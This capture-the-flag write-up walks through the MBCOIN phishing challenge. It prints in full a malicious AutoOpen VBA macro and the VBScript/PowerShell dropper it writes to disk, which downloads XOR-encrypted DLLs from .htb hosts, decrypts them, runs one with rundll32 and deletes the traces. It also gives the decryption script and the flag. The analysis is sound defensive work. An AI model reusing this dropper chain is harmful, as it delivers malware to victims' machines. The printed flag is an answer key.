







# WRITE_UP #

## MBCOIN ##

### 1. Analysis ###
* **Given:** a pcapng file named `mbcoin.pcap` and a Word document `mbcoin.doc`
* **Description:** We have been actively monitoring the most extensive spear-phishing campaign in recent history for the last two months. This campaign abuses the current crypto market crash to target disappointed crypto owners. A company's SOC team detected and provided us with a malicious email and some network traffic assessed to be associated with a user opening the document. Analyze the supplied files and figure out what happened.
* **Hints:**   
    * No hints are given

### 2. Investigation ###
First, I analyzed the document using `oletools`:

```bash
oleid mbcoin.doc
```



Apparently, this file contains suspicious VBA Macros, so I used `olevba` to investigate it further:



```vb
Sub AutoOpen()
    Dim QQ1 As Object
    Set QQ1 = ActiveDocument.Shapes(1)
    Dim QQ2 As Object
    Set QQ2 = ActiveDocument.Shapes(2)
    RO = StrReverse("\ataDmargorP\:C")
    ROI = RO + StrReverse("sbv.nip")
    ii = StrReverse("")
    Ne = StrReverse("IZOIZIMIZI")
    WW = QQ1.AlternativeText + QQ2.AlternativeText
    MyFile = FreeFile
    Open ROI For Output As #MyFile
    Print #MyFile, WW
    Close #MyFile
    fun = Shell(StrReverse("sbv.nip\ataDmargorP\:C exe.tpircsc k/ dmc"), Chr(48))

    waitTill = Now() + TimeValue("00:00:05")
    While Now() < waitTill
    Wend
    MsgBox ("Unfortunately you are not eligable for free coin!")
    End

End Sub
```

The malicious VBA macro is triggered through `AutoOpen()`, so it runs when the document is opened and macros are enabled. The macro first retrieves two shape objects from the document:
```vb
  Set QQ1 = ActiveDocument.Shapes(1)
  Set QQ2 = ActiveDocument.Shapes(2)
```

It then deobfuscates the output path using StrReverse():
```vb
RO = StrReverse("\ataDmargorP\:C")
ROI = RO + StrReverse("sbv.nip")
```
  
This resolves to: `C:\ProgramData\pin.vbs`, the actual VBScript payload is stored inside the `AlternativeText` fields of the two shapes. The macro concatenates both values and writes the result to disk. After dropping the file, it executes the payload with:

```bash
cmd /k cscript.exe C:\ProgramData\pin.vbs
```

At this point, the next goal is to recover the alt text values from QQ1 and QQ2. Since this is a normal `.doc` file, I couldn't extract shape alternative text directly, I proceeded with dynamic analysis inside an isolated virtual machine.

* **Warning:** Do not run this document on a host machine. Even inside a VM, take a snapshot first and keep the environment isolated.

I copied the malicious document into the VM, opened it, enabled the required document macros, and then checked the drop path, and I saw the VBScript:



The malicious file looks like this:

```vb
Dim WAITPLZ, WS, k, kl
WAITPLZ = DateAdd(Chr(115), 4, Now())
Do Until (Now() > WAITPLZ)
Loop

LL1 = "$Nano='JOOEX'.replace('JOO','I');sal OY $Nano;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://priyacareers.htb/u9hDQN9Yy7g/pt.html'',''C:\ProgramData\www1.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL2 = "$Nanoz='JOOEX'.replace('JOO','I');sal OY $Nanoz;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''https://perfectdemos.htb/Gv1iNAuMKZ/jv.html'',''C:\ProgramData\www2.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL3 = "$Nanox='JOOEX'.replace('JOO','I');sal OY $Nanox;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://bussiness-z.htb/ze8pCNTIkrIS/wp.html'',''C:\ProgramData\www3.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL4 = "$Nanoc='JOOEX'.replace('JOO','I');sal OY $Nanoc;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://cablingpoint.htb/ByH5NDoE3kQA/vm.html'',''C:\ProgramData\www4.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL5 = "$Nanoc='JOOEX'.replace('JOO','I');sal OY $Nanoc;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''https://bonus.corporatebusinessmachines.htb/1Y0qVNce/tz.html'',''C:\ProgramData\www5.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"


HH9="po"
HH8="wers"
HH7="h"
HH6="ell "
HH0= HH9+HH8+HH7+HH6
Set Ran = CreateObject("wscript.shell")
Ran.Run HH0+LL1,Chr(48)
Ran.Run HH0+LL2,Chr(48)
Ran.Run HH0+LL3,Chr(48)
Ran.Run HH0+LL4,Chr(48)
Ran.Run HH0+LL5,Chr(48)
Wscript.Sleep(5000)
MM1 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww1.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'gl'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'KO'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'X'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM2 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww2.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'pc'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Au'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'P'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]};  if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM3 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww3.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'WG'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'OL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'s'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM4 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww4.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'oN'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Py'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'G'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM5 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww5.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'IE'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'YL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'a'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"

Set Ran = CreateObject("wscript.shell")
Ran.Run HH0+MM1,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM2,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM3,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM4,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM5,Chr(48)

WScript.Sleep(15000)
OK1 = "cmd /c rundll32.exe C:\ProgramData\www.dll,ldr"
OK2 = "cmd /c del C:\programdata\www*"
OK3 = "cmd /c del C:\programdata\pin*"
Ran.Run OK1, Chr(48)
WScript.Sleep(1000)
Run.Run OK2, Chr(48)
Run.Run OK3, Chr(48)
```

This file tries to download 5 payloads by obfuscated variable `LL1` to `LL5`, then it creates alias `OY` for `iex`, then uses `OY` to execute the PowerShell command. Pairs of url and file output are:

```ps1
(New-Object Net.WebClient).DownloadFile(http://priyacareers.htb/u9hDQN9Yy7g/pt.html, "C:\ProgramData\www1.dll")
(New-Object Net.WebClient).DownloadFile(https://perfectdemos.htb/Gv1iNAuMKZ/jv.html, "C:\ProgramData\www2.dll")
(New-Object Net.WebClient).DownloadFile(http://bussiness-z.htb/ze8pCNTIkrIS/wp.html, "C:\ProgramData\www3.dll")
(New-Object Net.WebClient).DownloadFile(http://cablingpoint.htb/ByH5NDoE3kQA/vm.html, "C:\ProgramData\www4.dll")
(New-Object Net.WebClient).DownloadFile(https://bonus.corporatebusinessmachines.htb/1Y0qVNce/tz.html, "C:\ProgramData\www5.dll")
```

After downloading the `html`, the script runs `MM1` to `MM5`. Each block reads one file, then xor to decrypt it with a hardcoded key:

```ps1
[System.IO.File]::ReadAllBytes("C:\ProgramData\www1.dll")
$r[$i] = $b[$i] -bxor $k[$i % $k.length]
```

Then writes the decrypted result to: `C:\ProgramData\www.dll`. An interesting detail is all five decryptors write to the same output path. So each successful decrypt attempt can overwrite the previous one. 

The malware then executes the final payload, specifically its function `ldr` before deleting all artifacts:

```vb
OK1 = "cmd /c rundll32.exe C:\ProgramData\www.dll,ldr"
OK2 = "cmd /c del C:\programdata\www*"
OK3 = "cmd /c del C:\programdata\pin*"
```

So after analyzing, I extracted 3 `.html` which are `pt.html`, `wp.html`, and `vm.html` from the `pcapng` file, then use the same logic as the script to xor the payload. After that, I got 2 executable binaries, which was `pt.html` and `vm.html`:

```ps1
$inputFile = ".\<name>.html"
$outputFile = ".\<name>.exe"
$b = [System.IO.File]::ReadAllBytes($inputFile)
$k = "6iIgloMk5iRYAw7ZTWed0CrjuZ9wijyQDjKO9Ms0D8K0Z2H5MX6wyOKqFxlOm1XpjmYfaQXacA6"
$r = New-Object byte[] $b.Length

for ($i = 0; $i -lt $b.Length; $i++) {
    $r[$i] = $b[$i] -bxor $k[$i % $k.Length]
}

[System.IO.File]::WriteAllBytes($outputFile, $r)
# to check the magic bytes
# Write-Host $r 
```





Subsequently, I ran `strings` to see if I could get the flag directly, however it didn't go well, so I opened each one using `IDA` to analyze two binaries further. With the `payload1.exe` I got after xoring the `pt.html`, in function `ldr` is a red herring, while the `payload2.exe` which came from `vm.html` gave me the flag. This fits with the malicious script since `vm.html` is the last payload decrypted successfully:





### 3. Solution ###
1. **Result:** The flag is `HTB{wH4tS_4_sQuirReLw4fFl3?}`
